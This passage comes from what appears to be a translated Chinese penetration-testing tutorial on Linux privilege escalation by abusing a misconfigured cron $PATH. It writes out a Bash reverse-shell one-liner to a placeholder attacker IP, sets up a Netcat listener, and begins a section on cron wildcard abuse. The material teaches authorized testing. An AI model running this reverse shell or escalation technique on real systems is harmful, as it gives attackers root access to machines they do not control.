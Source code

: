     图 12.11 – 用户主目录

    如前述截图所示，我们无法在 `user` 主目录中找到 `overwrite.sh` 脚本。这可能是因为 `root` 用户尚未创建该脚本。无论如何，我们可以自行创建该脚本，并通过 cron 作业以 root 用户身份执行该脚本，从而为我们提供反向 shell。

1.  我们可以创建 `overwrite.sh` 脚本，并插入一个 Bash 命令，为我们提供反向 shell。可以通过在 `user` 主目录中运行以下命令来实现：

    `echo "bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1" > overwrite.sh`

    该命令将添加一个 `bash` 命令，连接到我们在 Kali Linux 虚拟机上的反向监听器。确保替换命令中的字段，填写相应的 IP 地址和端口号。

    在运行上述命令后，`overwrite.sh` 文件应该已经创建，并且它应包含以下截图所示的命令：

    ![图 12.12 – 覆盖文件    ](img/B17389_12_012.jpg)

    图 12.12 – 覆盖文件

    一旦我们创建了这个文件，我们需要使用 Netcat 设置一个反向监听器。

1.  我们可以通过运行以下命令在 Kali 虚拟机上设置反向监听器：

    `nc -nvlp <PORT>`

    确保指定在 `overwrite.sh` 脚本中使用的端口。设置监听器后，我们需要等待几分钟，直到 cron 任务运行。

    一旦 cron 任务被调用，`overwrite.sh`脚本将被执行。我们应该能在我们的监听器上获得一个带有 root 权限的反向 shell，如下图所示：

![图 12.13 – 反向 shell](img/B17389_12_013.jpg)

图 12.13 – 反向 shell

通过这种方式，我们成功地通过利用 crontab `$PATH` 变量中的配置错误提升了权限。这使我们能够执行一个自定义命令，从而在目标系统上获得一个提升的反向 shell。

# 通过 cron 通配符进行权限提升

该权限提升技巧涉及利用执行带有通配符的命令或脚本的 cron 任务。在 Linux 环境中，通配符（*****）用于一次执行多个操作，并且可以以多种不同方式使用。在本节中，我们将探讨如何在配置错误的情况下利用这些通配符来执行恶意命令或脚本。

重要提示

